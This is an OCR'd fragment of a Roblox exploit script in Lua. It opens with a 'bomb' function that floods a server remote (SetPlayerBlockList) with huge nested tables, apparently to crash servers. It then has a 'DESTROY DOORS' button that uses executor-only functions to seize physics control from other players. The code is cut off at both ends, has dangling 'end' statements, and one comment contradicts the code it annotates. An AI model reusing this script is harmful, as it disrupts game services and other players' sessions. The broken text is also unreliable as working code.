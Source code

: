 local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}

table.insert(spammedtable, {})
z = spammedtable[1]

for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end

local calculatemax = getmaxvalue(tableincrease)
local maximum

if calculatemax then
     maximum = calculatemax
     else
     maximum = 999999
end

for i = 1, maximum do
     table.insert(maintable, spammedtable)
end

for i = 1, tries do
     game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
end
end

bomb(250, 2) --// change values if client crashes.
end
wait(0.0) -- intervalo de 1 segundo entre cada repetição
end
end
local Section = Tab:AddSection({
	Name = "Doors"
})
Tab:AddButton({
Name = "DESTROY DOORS",
Callback = function()
local UserInputService = game:GetService("UserInputService")
local Mouse = game:GetService("Players").LocalPlayer:GetMouse()
local Folder = Instance.new("Folder", game:GetService("Workspace"))
local Part = Instance.new("Part", Folder)
local Attachment1 = Instance.new("Attachment", Part)
Part.Anchored = true
Part.CanCollide = false
Part.Transparency = 1
local Updated = Mouse.Hit + Vector3.new(0, 5, 0)
local NetworkAccess = coroutine.create(function()
    settings().Physics.AllowSleep = false
    while game:GetService("RunService").RenderStepped:Wait() do
        for _, Players in next, game:GetService("Players"):GetPlayers() do
            if Players ~= game:GetService("Players").LocalPlayer then
                Players.MaximumSimulationRadius = 0 
                sethiddenproperty(Players, "SimulationRadius", 0) 
            end 
        end
        game:GetService("Players").LocalPlayer.MaximumSimulationRadius = math.pow(math.huge,math.huge)
        setsimulationradius(math.huge) 
    end 
end) 
coroutine.resume(NetworkAccess)
local function ForcePart(v)